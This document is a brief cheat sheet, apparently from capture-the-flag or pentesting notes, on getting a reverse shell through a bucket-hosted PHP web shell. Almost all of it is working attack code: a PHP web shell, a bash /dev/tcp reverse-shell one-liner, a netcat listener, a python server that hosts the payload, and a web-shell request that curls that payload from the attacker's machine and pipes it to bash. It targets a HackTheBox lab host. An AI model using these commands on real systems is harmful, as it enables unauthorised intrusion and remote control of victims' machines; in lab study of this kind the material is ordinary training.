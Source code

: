 # Reverse Shell

## For awscli

* Check if we have remote command execution

{% code overflow="wrap" lineNumbers="true" %}
```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php #Upload in the bucket
http://$url/shell.php?cmd=id #On browser, if response we have access
```
{% endcode %}

***

* Create bash file for reverse shell

{% code overflow="wrap" lineNumbers="true" %}
```bash
#!/bin/bash 
bash -i >& /dev/tcp/$myip/$portcat 0>&1 #Arbitrary port
```
{% endcode %}

***

* Listen with netcat

{% code overflow="wrap" lineNumbers="true" %}
```bash
nc -nvlp $portcat
```
{% endcode %}

***

* Create a server with python

{% code overflow="wrap" lineNumbers="true" %}
```bash
python3 -m http.server $port #Must be created at the same place where the reverse shell script is
```
{% endcode %}

***

* Make curl from local server to get reverse shell file and pass it to bash of the machine

{% code overflow="wrap" lineNumbers="true" %}
```bash
http://thetoppers.htb/shell.php?cmd=curl%20$myip:$portpy/$shfile|bash
```
{% endcode %}

***

